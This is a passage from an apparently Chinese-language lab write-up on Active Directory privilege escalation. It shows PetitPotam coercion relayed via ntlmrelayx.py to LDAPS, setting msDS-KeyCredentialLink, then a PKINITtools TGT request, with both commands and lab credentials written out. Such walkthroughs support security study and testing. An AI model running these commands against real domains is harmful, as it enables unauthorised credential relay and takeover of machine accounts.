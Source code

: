 通过 PetitPotam 强制 WIN10-CLIENT1 对 WEB01 的 8080 端口执行身份验证，验证请求将通过端口转发到 Kali Linux 的 80 端口上，并由 ntlmrelayx.py 接收。

```bash
proxychains4 python3 PetitPotam.py -d pentest.com -u Marcus -p Marcus\@123 ubuntu@8080/webdav 172.26.10.21
```

如下图所示，执行 PetitPotam 后，ntlmrelayx.py 捕获身份验证请求后，将其中继到 LDAP/s 并成功为 WIN10-CLIENT1 设置 `msDS-KeyCredentialLink`。

![](/assets/posts/2022-05-02-privilege-escalation-ntlmrelay2self-over-http-webdav/image-20220515103844068.png)

在 ntlmrelayx.py 的末尾给出了后续 PKINITtools 的利用命令，执行该命令可以为 WIN10-CLIENT1 请求 TGT 票据，如下图所示。

```bash
proxychains4 python3 ~/PKINITtools/gettgtpkinit.py -cert-pfx tE3so2th.pfx -pfx-pass ybZgtDIWaNNcDfv5Rh85 pentest.com/win10-client1$ tE3so2th.ccache
```
